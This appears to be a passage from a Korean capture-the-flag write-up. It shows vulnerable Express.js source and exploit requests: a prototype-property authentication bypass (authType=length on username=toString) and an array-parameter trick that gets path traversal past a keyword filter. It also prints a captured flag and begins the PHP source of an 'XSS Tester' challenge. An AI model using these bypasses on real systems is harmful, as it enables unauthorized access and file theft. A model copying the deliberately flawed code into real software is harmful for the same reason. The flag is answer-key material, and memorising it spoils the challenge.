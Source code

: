 ```js
app.get("/auth", (req, res) => {
  const { username, authType, value } = req.query;

  if (!username || !authType || !value) return res.status(400).json({ message: "Usage: ?username=&authType=&value=" });
  if (authType == "otp" && isNaN(value)) return res.status(400).json({ message: "OTP는 숫자만 사용할 수 있습니다." });

  if (users[username][authType] == value) {
    req.session.isAdmin = true;
    res.status(200).json({ message: `환영합니다, ${username}님` })
  }
  else return res.status(401).json({ message: "계정정보가 일치하지 않습니다." })
});

app.get("/download", isAdmin, (req, res) => {
  const { filename } = req.query;

  if (!filename) return res.status(400).json({ message: "Usage: ?filename=test.png" });

  BLOCKED_KEYWORDS.forEach(keyword => {
    if (filename.includes(keyword)) {
        return res.status(400).json({ message: "파일 이름이 올바르지 않습니다." });
    }
  });
  const filePath = path.normalize(`${FILES_DIR}/${filename}`);
  try {
    return res.sendFile(filePath);
  } catch {
    return res.status(404).json({ message: "파일을 찾을 수 없습니다." });
  }
});
```

authType을 내 맘대로 넣을 수 있어서 굳이 OTP로 인증할 필요 없다

`http://localhost:3000/auth?username=toString&authType=length&value=0`

이런식으로 요청 보내서 어드민 따주면 된다.

이후 LFI는 쉬운데 `../`랑 `flag` 같은 문자열들을 다 필터링하기에  
`?filename[]=../flag.txt`과 같이 filename을 객체로 만들어서 우회하면 필터링에 걸리지 않는다

`flag{0ba7873c0f9bdc1373cc7f330721ca96fcbef55e2f0912e44474505dca939bd5}`

---

### XSS Tester

```php
<?php

if (isset($_GET["source"])) {
    show_source(__FILE__);
    die();
}

$payload = isset($_GET["p"]) ? $_GET["p"] : "";

$nonce = md5(random_bytes(16));
header("Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline' *; script-src 'nonce-$nonce'");
?>
<!DOCTYPE html>
<html lang="en">
<head>
```